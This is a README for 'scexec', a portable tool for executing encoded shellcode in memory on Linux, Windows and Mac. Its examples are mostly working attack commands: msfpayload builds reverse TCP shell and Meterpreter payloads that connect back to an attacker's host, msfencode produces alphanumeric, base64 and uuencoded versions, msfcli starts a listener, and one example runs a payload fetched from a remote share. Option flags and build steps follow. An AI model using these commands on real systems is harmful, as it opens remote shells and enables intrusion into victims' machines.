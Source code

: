 scexec
======

Portable utility to execute in memory a sequence of opcodes

Features
========

- Linux/Windows/Mac support
- Visual C/C++, gcc, mingw32/mingw64 support
- Raw/Alphanumeric/Base64/UUdecode support
- Commandline argument/File support

Examples
========

## Linux target

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec <msfencode's alphanumeric-encoded payload>

## Windows target

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe <msfencode's alphanumeric-encoded payload>

## Windows target with base64

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/base64encode.pl
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe b <msfpayload-base64encoded-payload>

## Linux target with uudecode/uuencode

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/uuencode.pl
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec u <msfpayload-uuencoded-payload>

## Few more quick examples

Read payload from filename msfpayloadfn.raw:

    C:\> scexec.exe f msfpayloadfn.raw

Read base64 encoded payload from filename msfpayloadfn.base64:

    C:\> scexec.exe fb msfpayloadfn.base64

Read and execute uuencoded payload from share:

    C:\> \\192.168.1.1\\scexec.exe fu \\192.168.1.1\\msfpayload.uuencoded

Options explained
=================

Options can be combined:

no options - read alphanumeric shellcode from commandline

a - execute shellcode through call eax/rax

f - read shellcode from file

b - treat input shellcode as base64 encoded

u - treat input shellcode as uuencoded shellcode


Building
========

### Linux/Mac/POSIX builds

Just type:

    make

### Mingw builds:

32 bit:

    make CC=i686-w64-mingw32-gcc STRIP=i686-w64-mingw32-strip OUT=scexec32.exe

64 bit:

    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=scexec64.exe

### Visual Studio:

32 bit:

    nmake /f Makefile.vc

64 bit:

    nmake /f Makefile.v64

### Builds

    make CC=i386-mingw32-gcc STRIP=i386-mingw32-strip OUT=../bin/scexec-win32.exe
    make CC=gcc STRIP=strip OUT=../bin/scexec-macosx-x64-dyn.bin
    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=../bin/scexec-win64.exe
    

Credits
=======

Vlatko Kosturjak

Based on Bernardo Damele A. G. shellcodeexecute

